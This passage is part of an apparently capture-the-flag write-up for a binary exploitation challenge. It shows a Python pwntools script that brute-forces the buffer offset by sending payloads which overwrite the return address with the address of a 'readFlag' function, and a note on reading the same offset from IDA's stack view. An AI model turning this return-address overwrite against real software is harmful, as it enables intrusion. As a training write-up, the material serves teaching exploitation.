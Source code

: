 ```python
            p32(elf.sym['readFlag']).decode()
        )

        payload = (header + body).encode() + b"\r\n"

        io.send(payload)

        response = io.clean().replace(b"\r\n", b"\n").decode()
        if "cyctf" in response:
            print(f"Response:\n{response}")
            return False

    return True

def main():
    for i in range(1, 100):
        if not login(i):
            print(f"Offset: {i}")
            break

if __name__ == "__main__":
    main()
```

And the output:
![](image-25.png)

{{<expand "Using IDA to find the offset">}}
We can easily find the offset in IDA from the stack view. Simply double-click on the stack variable buf, and you will see its offset from the base pointer `var_s0` in hexadecimal next to it. By adding 4 bytes to this value, we can obtain our offset.
![](image-27.png)
`var_s0` is the base pointer and `var_s4` is the return address: